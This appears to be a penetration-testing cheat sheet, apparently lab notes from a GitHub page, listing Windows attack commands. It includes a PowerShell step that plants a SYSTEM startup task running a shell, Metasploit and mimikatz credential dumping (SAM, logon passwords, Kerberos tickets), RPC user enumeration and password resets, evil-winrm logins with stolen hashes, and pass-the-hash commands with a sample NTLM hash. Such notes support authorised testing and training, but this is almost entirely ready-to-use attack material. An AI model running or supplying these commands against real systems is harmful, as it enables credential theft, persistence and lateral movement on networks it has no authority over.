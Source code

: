 ```powershell
Invoke-Command -Computer [PC_NAME] -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\shell.exe /ru SYSTEM } -Credential $creds
# PG Hutch
```

### Metasploit

```
getsystem
load kiwi   # mimikatz
lsa_dump_sam
```

### RPC

```
rpcdump.py [USERNAME]@[IP_ADDR]
rpcclient -U '' [IP_ADDR]
  > enumdomusers    # to get list of users after signin
  > setuserinfo [username] [level] [password]		# level: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN
```

### Evil-WinRM

```
evil-winrm -i [IP_ADDR] -u [USERNAME] -H [HASH]   # hash retrievable from secretsdump.py machines/smb
evil-winrm -i [IP_ADDR] -u [USERNAME] -p [PASSWORD]
```

### Tcpdump

```
tcpdump -i tun0 icmp -v   # listen for icmp ping to tun0 interface
```

### Mimikatz

```
./mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" “exit”
# One-liner
privilege::debug
token::elevate
lsadump::sam
------------------Pass The Hash-------------------
pth-winexe -U [USERNAME]%[HASH] //[IP_ADDR] cmd		# https://github.com/byt3bl33d3r/pth-toolkit
-----------------AD Enumeration-------------------
sekurlsa::logonpasswords
sekurlsa::tickets
kerberos::list
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe    # using ntlm of other user (retrieved from logonpasswords) to execute a program
```
